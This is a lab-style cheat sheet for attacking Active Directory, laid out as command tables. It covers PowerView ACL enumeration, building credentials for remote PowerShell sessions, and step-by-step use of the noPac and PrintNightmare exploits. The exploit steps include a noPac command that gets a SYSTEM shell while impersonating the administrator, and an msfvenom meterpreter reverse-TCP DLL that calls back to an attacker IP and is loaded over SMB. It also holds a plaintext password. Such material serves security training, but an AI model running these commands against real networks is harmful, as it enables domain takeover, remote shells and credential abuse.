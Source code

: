 ## ACL Enumeration

### Commands

| Command | Description |
|---------|-------------|
| `Find-InterestingDomainAcl` | Uses PowerView to find object ACLs in the target Windows domain with modification rights. |
| `Import-Module .\PowerView.ps1 $sid = Convert-NameToSid wley` | Imports PowerView and retrieves the SID of a specific user account. |

## Privileged Access

### Commands

| Command | Description |
|---------|-------------|
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"` | Enumerates the Remote Desktop Users group on a Windows target. |
| `$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force` | Creates a variable for a user's password in a secure string format. |
| `$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)` | Creates a variable combining a username and password. |
| `Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred` | Establishes a PowerShell session with a target Windows system. |

## Additional Modules & Exploits

### NoPac Exploit

| Command | Description |
|---------|-------------|
| `sudo git clone https://github.com/Ridter/noPac.git` | Clones the noPac exploit repository. |
| `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap` | Checks for vulnerability to noPac. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell -impersonate administrator -use-ldap` | Exploits the noPac vulnerability to gain a SYSTEM shell. |

### PrintNightmare Exploit

| Command | Description |
|---------|-------------|
| `git clone https://github.com/cube0x0/CVE-2021-1675.git` | Clones a PrintNightmare exploit repository. |
| `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.129.202.111 LPORT=8080 -f dll > backupscript.dll` | Generates a DLL payload for the exploit. |
| `sudo python3 CVE-2021-1675.py inlanefreight.local/<username>:<password>@172.16.5.5 '\\10.129.202.111\CompData\backupscript.dll'` | Executes the exploit. |

*(This document continues with other sections like Trust Relationships, ASREPRoasting, etc., following the same structure.)*
